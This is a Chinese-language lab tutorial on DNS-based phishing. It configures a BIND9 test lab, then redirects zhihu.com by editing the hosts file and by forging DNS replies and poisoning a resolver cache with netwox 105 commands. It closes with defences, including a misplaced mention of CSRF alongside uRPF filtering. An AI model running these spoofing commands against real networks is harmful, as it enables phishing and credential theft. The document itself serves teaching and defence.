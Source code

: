## 钓鱼网站本地DNS攻击

### 当你浏览器中敲下知乎域名电脑做了什么?
- 访问网站概述

- DNS协议概述

- 为什么黑客能通过DNS协议钓鱼

### 攻击环境配置
- 虚拟机各主机地址
```
攻击者:192.168.59.1
普通用户:192.168.59.146
DNS服务器:192.168.59.151
```
- DNS服务器环境配置
1. 安装bind9
2. 在`/etc/bind/named.conf.options`文件中添加:
```
options {
dump-file "/var/cache/bind/dump.db";
};
```
3. 添加文件`/var/cache/bind/example.com.db`,内容如下:
```
$TTL 3D
@	IN	SOA	ns.example.com. admin.example.com. (
		2008111001
		8H
		2H
		4W
		1D)

@	IN	NS	ns.example.com.
@	IN	MX	10 mail.example.com.

www	IN	A	192.168.59.151
mail	IN	A	192.168.59.151
ns	IN	A	192.168.59.151
*.example.com.	IN	A 192.168.59.151

```
4. 添加文件`192.168.59 `,内容如下:
```
$TTL 3D
@	IN	SOA	ns.example.com. admin.example.com. (
		2008111001
		8H
		2H
		4W
		1D)
@	IN	NS	ns.example.com.

151	IN	PTR	www.example.com.
151	IN	PTR	mail.example.com.
151	IN	PTR	ns.example.com.

```
5. 重启服务`service bind9 restart`.

- 普通用户环境配置
1. 编辑`/etc/resolv.conf`文件的`nameserver`字段为DNS服务器IP地址.
2. `ping www.example.com`能ping通则说明配置成功!
3. 通过nslookup查看`www.example.com`的IP地址为`192.168.59.151`.
```
root@ubuntu:/etc/bind# nslookup www.example.com
Server:		127.0.1.1
Address:	127.0.1.1#53

Name:	www.example.com
Address: 192.168.59.151
```
### 攻击DNS协议
- 不要让黑客接触你的电脑,他会做什么?
黑客会在`\etc\hosts`文件中添加下面的字段,将网址强行映射到一个错误的IP地址!  
```
192.168.59.151	zhihu.com
192.168.59.151	www.zhihu.com
```
实际效果如图所示:  


- 不要相信黑客伪造的DNS应答报文,他怎么伪造的?

```
netwox 105 -h "zhihu.com" -H "192.168.59.151" -a "ns.example.com" -A "192.168.59.151" -f "src host 192.168.59.146" -d vmnet8 -T 10
```
欺骗浏览器,告诉浏览器`zhihu.com`的IP地址是`192.168.59.151`,而这个错误的IP地址往往就是钓鱼网站!  

实际效果如图所示:  


- 小心把控DNS服务器Cache时间,严防DNS Cache中毒!

```
netwox 105 -h "www.zhihu.com" -H "192.168.59.152" -a "ns.example.com" -A "192.168.59.152" -f "src host 192.168.59.152" -d vmnet8 -s "raw"
```
实际效果如图所示:



### 如何防御DNS攻击?

1. 平时注意不要相信陌生人的电话
2. 技术层面的CSRF防御

严格模式有 2 个条件,只有同时满足两个条件的报文,才会被检测通过.  
> 条件 1:在路由器转发表中,存在去往报文源地址的路由信息.  
> 条件 2:报文的入接口与转发表中去往源地址路由的出接口一致.  

在Router C 上配置严格型 URPF,当攻击者伪装源地址为 Normal User 地址,  
报文由 RA 接口进入 Router C,由于在 Router C 的转发表中,  
去往源地址Normal User 的路由出接口为 RB,而伪造报文的入接口为 RA,  
该伪造报文在Router C 上直接丢弃,并且在对称路由中 Normal User 可以正常访问 Server.  

如图所示:


